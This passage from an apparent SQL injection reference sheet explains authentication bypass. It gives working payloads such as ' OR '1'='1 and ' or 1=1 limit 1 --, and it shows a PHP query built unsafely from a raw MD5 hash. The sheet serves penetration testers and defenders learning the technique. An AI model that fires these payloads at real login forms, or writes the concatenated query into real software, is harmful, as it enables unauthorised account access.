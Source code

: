 | Oracle              | `ORA-01756: quoted string not properly terminated`                                       | `'`             |
| Oracle              | `ORA-00923: FROM keyword not found where expected`                                       | `1'`            |

## Authentication Bypass

In a standard authentication mechanism, users provide a username and password. The application typically checks these credentials against a database. For example, a SQL query might look something like this:

```SQL
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

An attacker can attempt to inject malicious SQL code into the username or password fields. For instance, if the attacker types the following in the username field:

```sql
' OR '1'='1
```

And leaves the password field empty, the resulting SQL query executed might look like this:

```SQL
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```

Here, `'1'='1'` is always true, which means the query could return a valid user, effectively bypassing the authentication check.

:warning: In this case, the database will return an array of results because it will match every users in the table. This will produce an error in the server side since it was expecting only one result. By adding a `LIMIT` clause, you can restrict the number of rows returned by the query. By submitting the following payload in the username field, you will log in as the first user in the database. Additionally, you can inject a payload in the password field while using the correct username to target a specific user.

```sql
' or 1=1 limit 1 --
```

:warning: Avoid using this payload indiscriminately, as it always returns true. It could interact with endpoints that may inadvertently delete sessions, files, configurations, or database data.

* [PayloadsAllTheThings/SQL Injection/Intruder/Auth_Bypass.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt)

### Raw MD5 and SHA1

In PHP, if the optional `binary` parameter is set to true, then the `md5` digest is instead returned in raw binary format with a length of 16. Let's take this PHP code where the authentication is checking the MD5 hash of the password submitted by the user.

```php
sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
```

An attacker can craft a payload where the result of the `md5($password,true)` function will contain a quote and escape the SQL context, for example with `' or 'SOMETHING`.
